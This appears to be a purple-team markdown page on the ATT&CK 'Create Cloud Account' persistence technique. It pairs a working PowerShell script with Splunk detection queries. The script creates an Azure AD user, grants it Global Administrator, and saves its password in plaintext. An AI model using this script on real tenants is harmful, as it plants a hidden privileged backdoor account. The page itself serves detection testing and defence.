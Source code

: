 # Create Cloud Account
## About
Adversaries may create a cloud account to maintain access to victim systems. <br>
<b>Tactic</b>    : Persistence <br>
<b>Technique</b> : Create Account<br>
More details here in <a href="https://attack.mitre.org/techniques/T1136/003/" target="_blank"> MITRE ATT&CK </a>. <br>

### Attack simulation
The Below script will create a cloud-only account in Azure AD.
``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin r+ole"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```
When the script is run, It asks the name of the user to be created.<br>
If we just hit enter, It creates a user named "TempUser_" followed by the current date-time. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136.png"></img>
<br>
Azure AD user is created as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_1.png"></img>
<br>

## Splunk Detections
### Create user event
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add user" result="success"
| spath targetResources{}
| rename targetResources{}.userPrincipalName as UserAdded initiatedBy.user.userPrincipalName as CreatedByUPN  additionalDetails{}.value as UserAgent
| table _time UserAdded CreatedByUPN  UserAgent
```
<br>
Newly created user is found in the search. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_2.png"></img>

Note : "Swagger-Codegen/1.4.0.0/csharp" is the user agent when Azure AD PowerShell is used to create the user.
<br>

### The User was created outside PIM (e.g. PowerShell)
```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```